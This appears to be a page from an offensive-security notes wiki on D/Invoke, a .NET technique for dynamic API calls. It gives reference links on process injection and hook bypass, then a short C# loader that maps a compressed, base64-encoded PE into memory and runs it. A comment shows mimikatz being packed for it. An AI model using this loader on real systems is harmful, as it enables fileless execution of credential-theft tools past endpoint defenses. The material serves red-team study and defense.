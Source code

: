 ```yaml
---
description: Dynamic API Invocation
---
```


# D/Invoke

* [https://dinvoke.net/](https://dinvoke.net/)
* [https://thewover.github.io/Dynamic-Invoke/](https://thewover.github.io/Dynamic-Invoke/)
* [https://github.com/TheWover/DInvoke](https://github.com/TheWover/DInvoke)
* [https://web.archive.org/web/20210601171512/https://rastamouse.me/blog/process-injection-dinvoke/](https://web.archive.org/web/20210601171512/https://rastamouse.me/blog/process-injection-dinvoke/)
* [https://github.com/S3cur3Th1sSh1t/Creds/blob/master/Csharp/Dinvoke_CreateRemoteThread.cs](https://github.com/S3cur3Th1sSh1t/Creds/blob/master/Csharp/Dinvoke_CreateRemoteThread.cs)
* [https://blog.nviso.eu/2020/11/20/dynamic-invocation-in-net-to-bypass-hooks/](https://blog.nviso.eu/2020/11/20/dynamic-invocation-in-net-to-bypass-hooks/)
* [https://offensivedefence.co.uk/posts/dinvoke-syscalls/](https://offensivedefence.co.uk/posts/dinvoke-syscalls/)




## Dynamic P/Invoke

- [https://bohops.com/2022/04/02/unmanaged-code-execution-with-net-dynamic-pinvoke/](https://bohops.com/2022/04/02/unmanaged-code-execution-with-net-dynamic-pinvoke/)
- [https://github.com/bohops/DynamicDotNet](https://github.com/bohops/DynamicDotNet)




## H/Invoke

- [https://dr4k0nia.github.io/posts/HInvoke-and-avoiding-PInvoke/](https://dr4k0nia.github.io/posts/HInvoke-and-avoiding-PInvoke/)
- [https://gist.github.com/dr4k0nia/95bd2dc1cc09726f4aaaf920b9982f9d](https://gist.github.com/dr4k0nia/95bd2dc1cc09726f4aaaf920b9982f9d)




## Run PE From Memory

- [https://github.com/S3cur3Th1sSh1t/Creds/blob/master/Csharp/PE_Loader_DInvoke_ManualMap.cs](https://github.com/S3cur3Th1sSh1t/Creds/blob/master/Csharp/PE_Loader_DInvoke_ManualMap.cs)

{% code title="DInvokePE.cs" %}
```csharp
using System;
using System.IO;
using System.IO.Compression;

namespace DInvokePE
{
    public class Program
    {
        static byte[] Compress(byte[] data)
        {
            MemoryStream output = new MemoryStream();
            using (DeflateStream dStream = new DeflateStream(output, CompressionLevel.Optimal))
                dStream.Write(data, 0, data.Length);

            return output.ToArray();
        }

        static byte[] Decompress(byte[] data)
        {
            MemoryStream input = new MemoryStream(data);
            MemoryStream output = new MemoryStream();
            using (DeflateStream dStream = new DeflateStream(input, CompressionMode.Decompress))
                dStream.CopyTo(output);

            return output.ToArray();
        }

        public static void Main(string[] args)
        {
            /*
            var rawBytes = File.ReadAllBytes(@"C:\Users\snovvcrash\Desktop\mimikatz.exe");
            var compressed = Compress(rawBytes);
            var compressedB64 = Convert.ToBase64String(compressed);
            Console.WriteLine(compressedB64);
            */

            var compressed = Convert.FromBase64String("");
            var rawBytes = Decompress(compressed);
            DInvoke.Data.PE.PE_MANUAL_MAP map = DInvoke.ManualMap.Map.MapModuleToMemory(rawBytes);
            DInvoke.DynamicInvoke.Generic.CallMappedPEModule(map.PEINFO, map.ModuleBase);
            Console.ReadLine();
        }
    }
}
```
{% endcode %}
